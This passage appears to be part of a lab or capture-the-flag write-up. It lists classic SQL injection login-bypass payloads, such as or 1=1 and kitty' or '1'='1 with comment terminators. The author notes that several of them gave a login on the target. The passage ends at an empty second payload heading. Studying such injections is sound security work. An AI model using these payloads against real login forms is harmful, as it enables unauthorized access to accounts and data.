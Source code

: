 <figure><img src="../../.gitbook/assets/image (967).png" alt=""><figcaption></figcaption></figure>

**Payload**

```
or 1=1
or 1=1--
or 1=1#
or 1=1/*
kitty' --
kitty' -- - 
kitty' #
kitty'/*
kitty' or '1'='1
kitty' or '1'='1'--
kitty' or '1'='1'#
kitty' or '1'='1'/*
kitty'or 1=1 or ''='
```

A few of the options above work but I choose this one, I can login but there's nothing developed

**Payload**
